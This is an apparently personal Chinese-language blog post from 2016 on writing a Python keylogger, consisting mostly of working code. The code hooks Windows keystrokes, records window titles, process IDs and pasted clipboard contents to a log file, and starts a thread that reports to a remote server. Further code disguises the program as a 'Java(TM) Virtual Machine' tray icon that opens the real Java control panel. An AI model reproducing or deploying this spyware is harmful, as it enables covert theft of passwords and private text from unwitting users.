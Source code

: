 ```yaml
---
title: py编写键盘记录器初步
author: Semprathlon / Simfae Dean
tags:
  - GUI
  - Python
categories:
  - Programing
abbrlink: 27b659b8
date: 2016-09-09 14:01:41
---
```

- 调用win32 API记录键盘事件、窗口事件

 
<pre class="lang:python decode:true " >#
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程ID存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    # print
    # print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    # print
    Thread(target=report_to_remote_server).start()
    output_file('','KeyLog.ini',"\n[ PID:%s-%s-%s] %s\n" % (process_id,executable.value,windows_title.value,time.strftime("%Y/%m/%d %H:%M:%S")));

    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii &gt; 32 and event.Ascii &lt;127:
        # print chr(event.Ascii),
        output_file('','KeyLog.ini',chr(event.Ascii))
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            # print "[PASTE]-%s" % (pasted_value),
            output_file('','KeyLog.ini',"[PASTE]-%s" % (pasted_value))
        else:
            # print "[%s]" % event.Key,
            output_file('','KeyLog.ini',"[%s]" % event.Key)
    # 循环监听下一个击键事件
    return True

def RegisterKeyListener():
    # 创建并注册hook管理器
    kl = pyHook.HookManager()
    kl.KeyDown = KeyStroke

    # 注册hook并执行
    kl.HookKeyboard()
    pythoncom.PumpMessages()
</pre> 


但是对于QQEdit.exe，记录值会受到干扰。

- 日志记录

 
<pre class="lang:python decode:true " >def output_file(dir,name,content):
    fileName = ''
    if len(dir)&gt;0:
        fileName = fileName+dir + "/"
    fileName = fileName + name#.encode('utf-8','ignore')
    f = open(fileName,"a")
    f.write(content)
    # print "Output file",fileName
</pre> 


- Tk GUI 

支持异步多线程操作的UI库

 
<pre class="lang:python decode:true " >class Tk_App:
    def __init__(self,master):
        #构造函数里传入一个父组件(master),创建一个Frame组件并显示
        frame = Frame(master)
        frame.pack()
        #创建两个button，并作为frame的一部分
        self.button = Button(frame, text="QUIT", fg="red", command=sys.exit)# frame.quit
        self.button.pack(side=LEFT) #此处side为LEFT表示将其放置 到frame剩余空间的最左方
        self.hi_there = Button(frame, text="Hello", command=self.say_hi)
        self.hi_there.pack(side=LEFT)
        # Thread(target=RegisterKeyListener).start()
        # sys.stdout.flush()

    def say_hi(self):
        print "hi there, this is a class example!"

TRAY_TOOLTIP = 'Java(TM) Virtual Machine'
TRAY_ICON = 'icon.png'


def create_menu_item(menu, label, func):
    item = wx.MenuItem(menu, -1, label)
    menu.Bind(wx.EVT_MENU, func, id=item.GetId())
    menu.AppendItem(item)
    return item


class TaskBarIcon(wx.TaskBarIcon):
    def __init__(self,frame):
        self.frame=frame
        super(TaskBarIcon, self).__init__()
        self.set_icon(TRAY_ICON)
        self.Bind(wx.EVT_TASKBAR_LEFT_DOWN, self.on_left_down)
        mainth.start();

    def CreatePopupMenu(self):
        menu = wx.Menu()
        # create_menu_item(menu, 'Say Hello', self.on_hello)
        create_menu_item(menu,'Control Panel',self.on_control);
        menu.AppendSeparator()
        create_menu_item(menu, 'Exit', self.on_exit)
        # create_menu_item(menu, 'Exit', sys.exit)
        return menu

    def set_icon(self, path):
        icon = wx.IconFromBitmap(wx.Bitmap(path))
        self.SetIcon(icon, TRAY_TOOLTIP)

    def on_left_down(self, event):
        print 'Tray icon was left-clicked.'

    def on_hello(self, event):
        print 'Hello, world!'


    def on_control(self,event):
        # print r'"%JAVA_HOME%\jre\bin\javacpl.exe"'
        # os.system(r'cd /d %JAVA_HOME%');
        os.system(r'""%JAVA_HOME%\jre\bin\javacpl.exe""');
        # print os.path.realpath(sys.argv[0])
        # print os.path.dirname(sys.argv[0])
        # print os.path.basename(sys.argv[0])

    def on_exit(self, event):
        wx.CallAfter(self.Destroy)
        self.frame.Close()
        mainth._Thread__stop()
        # sys.exit()

class App(wx.App):
    def OnInit(self):
        frame=wx.Frame(None)
        self.SetTopWindow(frame)
        TaskBarIcon(frame)
        return True
</pre> 

